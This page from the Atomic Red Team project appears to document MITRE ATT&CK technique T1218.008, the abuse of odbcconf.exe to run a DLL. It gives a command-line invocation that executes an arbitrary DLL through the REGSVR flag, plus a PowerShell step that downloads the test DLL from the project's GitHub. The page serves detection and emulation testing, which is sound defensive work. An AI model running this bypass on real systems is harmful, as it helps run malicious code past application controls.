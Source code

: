# T1218.008 - Odbcconf
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1218/008)
<blockquote>Adversaries may abuse odbcconf.exe to proxy execution of malicious payloads. Odbcconf.exe is a Windows utility that allows you to configure Open Database Connectivity (ODBC) drivers and data source names.(Citation: Microsoft odbcconf.exe) The Odbcconf.exe binary may be digitally signed by Microsoft.

Adversaries may abuse odbcconf.exe to bypass application control solutions that do not account for its potential abuse. Similar to [Regsvr32](https://attack.mitre.org/techniques/T1218/010), odbcconf.exe has a <code>REGSVR</code> flag that can be misused to execute DLLs (ex: <code>odbcconf.exe /S /A &lbrace;REGSVR "C:\Users\Public\file.dll"&rbrace;</code>). (Citation: LOLBAS Odbcconf)(Citation: TrendMicro Squiblydoo Aug 2017)(Citation: TrendMicro Cobalt Group Nov 2017) 
</blockquote>

## Atomic Tests

- [Atomic Test #1 - Odbcconf.exe - Execute Arbitrary DLL](#atomic-test-1---odbcconfexe---execute-arbitrary-dll)


<br/>

## Atomic Test #1 - Odbcconf.exe - Execute Arbitrary DLL
Execute arbitrary DLL file stored locally.

**Supported Platforms:** Windows


**auto_generated_guid:** 2430498b-06c0-4b92-a448-8ad263c388e2





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dll_payload | DLL to execute | Path | PathToAtomicsFolder&#92;T1218.008&#92;src&#92;Win32&#92;T1218-2.dll|


#### Attack Commands: Run with `command_prompt`! 


```cmd
odbcconf.exe /S /A {REGSVR "#{dll_payload}"}
```




#### Dependencies:  Run with `powershell`!
##### Description: T1218-2.dll must exist on disk at specified location (#{dll_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path #{dll_payload}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{dll_payload}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.008/src/Win32/T1218-2.dll" -OutFile "#{dll_payload}"
```




<br/>
